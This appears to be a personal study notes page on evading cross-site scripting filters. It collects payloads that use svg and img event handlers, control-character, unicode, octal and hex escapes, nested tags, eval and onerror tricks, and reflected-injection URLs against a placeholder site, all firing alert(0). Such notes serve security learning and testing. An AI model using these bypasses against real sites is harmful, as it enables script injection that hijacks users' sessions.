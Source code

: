 # filter evasion

[XSS Filter Evasion - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

[HTML5 Security Cheatsheet](https://html5sec.org/)

# Bypassing weak script tag filters

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled.png)

# Using HTML attributes for script exec

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%201.png)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%202.png)

SWF tool which could be used in rare cases:[https://github.com/evilcos/xss.swf](https://github.com/evilcos/xss.swf)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%203.png)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%204.png)

```php
//common filter used for on events
(on\w+\s*=)

//we can easily bypass this thanks to some browser weirdness
<svg/onload=alert(0)>
<svg//////onload=alert(0)>
<svg id=x;onload=alert(0)>
<svg id=`x`onload=alert(0)>
```

```html
<!-- the upgraded filter still  has a weakness because it converts the conrol char to a space. -->
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)

// so we could still bypass this using control chars
<svg onload%09=alert(0)> //this even works with safari
<svg %09onload=alert(0)>
<svg %09onload%20=alert(0)>
<svg onload%09%20%28%2C%3B=alert(0)>
<svg onload%0B=alert(0)> //this only works in ie
```

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%205.png)

online test to verify: [http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name](http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name)

# Valid Regex filter (2020)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%206.png)

# Character escaping to bypass keyword filters

```html
<script>\u0061lert(0)</script>
<script>\u0061\u006Cert(0)</script>
```

### Octal Escape

```html
<img src=x onerror="eval('\141lert(0)')">
<img src=x onerror="eval('\141\154\145\162\164\50\60\51')">
```

[https://cyberchef.cybertap.ch/#recipe=To_Octal('Space')Escape_string('Everything','Single',false,false,false/disabled)Find_/_Replace({'option':'Regex','string':' '},'\\',true,false,true,false)&input=YWxlcnQoMCk](https://cyberchef.cybertap.ch/#recipe=To_Octal('Space')Escape_string('Everything','Single',false,false,false/disabled)Find_/_Replace(%7B'option':'Regex','string':'%20'%7D,'%5C%5C',true,false,true,false)&input=YWxlcnQoMCk)

### Hex Escape

```html
<img src=x onerror="eval('\x61lert(0)')">
<img src=x onerror="eval('\x61\x6c\x65\x72\x74\x28\x30\x29')">
```

### Hex Numeric character transfer

```html
<img src=x onerror="eval('&#x0061lert(0)')">
<img src=x onerror="eval('&#97lert(0)')">
```

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%207.png)

# String construction

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%208.png)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%209.png)

### Pseudo Protocol

In addition to the `javascript:` protocol there is also `data:` as well as `vbscript:` 

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%2010.png)

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgwKTwvc2NyaXB0Pg==">
```

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%2011.png)

If sanitization is used to remove parts of or entire html tags we can try and bypass this filter with nested or multiple tags.

```html
<scr<script>ipt>alert(0)</script>
<scr<iframe>ipt>alert(0)</script>
```

### Escaping quotes

```html
// lets say there is sanitization that onlz sanitizes quotes but not backslashes we can try and inject code this way:

myinput\' alert(0);//

//tis string will be parsed and after the sanitization it will lok like this:

myinput\\' alert(0);//

//only the backslash is escaped thus allowing us to inject the quote thus allowng us to execue the alert code
```

```jsx
/any string with spaces/.source -> 'any string with spaces'

YW55IHN0cmluZyB3aXRoIHNwYWNlcw.toString(36)

window.atob('YW55IHN0cmluZyB3aXRoIHNwYWNlcw==') -> 'any string with spaces'

String.fromCharCode(61,6c,65,72,74)

decodeURI('alert%280%29') -> 'alert(0)'
decodeURIComponent('alert%280%29') -> 'alert(0)'

//we can also combine methods to take this further:
unescape(/%u0061%u006C%u0065%u0072%u0074%u0028%u0030%u0029/.source) -> 'alert(0)'
eval(unescape(/%u0061%u006C%u0065%u0072%u0074%u0028%u0030%u0029/.source)) -> alert(0)

decodeURI(/alert%280%29/.source) -> 'alert(0)'
decodeURIComponent(/alert%280%29/.source) -> 'alert(0)'
```

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%2012.png)

## Escaping Parentheses ()

There is a fun way to pass code to a function without using an parentheses and it abuses the window.onerror func.

```jsx
<img src=x onerror="window.onerror=eval;throw'alert\x280\x29'">
// this will overwrite the default onerror function as soon as teh image faisl to load. then we immidiately throw and error with a strin argument. the eval function we assigned to the default error handler will the evaluate our string thus executing the code.

onerror=alert;throw 1;

//this simpler version will pass the error object to the alert function, be aware some browser pass Uncaugth into the arguments.

//of course we can also encode the payload passed via throw
```

# Bypassing Browser Filters

### Injection inside HTML Tag

One of themost common Reflectd XSS vectors which is blocked is:

```jsx
http://victim.site/inject?x=<svg/onload=alert(0)>
```

Just by removing the final `>` we can bypass most browsers:

```jsx
http://victim.site/inject?x=<svg/onload=alert(0)
```

### Injection inside HTML Tag Attributes

```jsx
http://victim.site/inject?x=franco"><svg/onload=alert(0)>
```

This is also blocked by all browsers

On webkit browsers we can bypass this using base64

```jsx
http://victim.site/inject?x=franco"><a/href="data:text/html;base64,YWxlcnQoMCk=">click<!--
```

### Injecting inside script Tags

```jsx
http://victim.site/inject?x=franco";alert(0);//
```

This works in most browsers except IE

### Injecting inside event attributes

event attributes are not inspected by browser filters.

```jsx
http://victim.site/inject?x=franco";alert(0)
```

### DOM Based

DOM based XSS are not inspected by browser filters

WAF evasion owasp filters:

[owasp-modsecurity-crs/modsecurity_crs_41_xss_attacks.conf at master · SpiderLabs/owasp-modsecurity-crs](https://github.com/SpiderLabs/owasp-modsecurity-crs/blob/master/base_rules/modsecurity_crs_41_xss_attacks.conf)